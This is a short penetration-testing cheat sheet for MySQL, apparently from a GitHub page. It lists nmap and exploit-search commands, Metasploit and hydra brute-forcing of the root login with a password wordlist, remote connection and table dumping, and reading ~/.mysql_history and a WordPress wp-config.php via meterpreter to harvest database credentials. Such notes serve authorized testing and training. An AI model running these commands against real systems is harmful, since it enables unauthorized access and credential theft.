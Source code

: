 # MySQL
- Basic nmap scan.
```
nmap -Pn -sV -sC -p3306 <ip>
```

- Check for existing exploits.
```
searchsploit MySQL <version>

search MySQL <version>
```

- Check MySQL version.
```
use auxiliary/scanner/mysql/mysql_version
```

- Brute-force MySQL login.
```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql

[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

- Connect to MySQL remotely.
```
mysql -u root -p -h <ip>

show databases;
use <database>;
show tables;
select * from <table>;
```

- Check mysql command history.
```
cat ~/.mysql_history
```

- Check Web app (e.g. WordPress) config file for MySQL root credentials.
```
meterpreter > cat C:\\wamp\\www\\wordpress\\wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '');
```
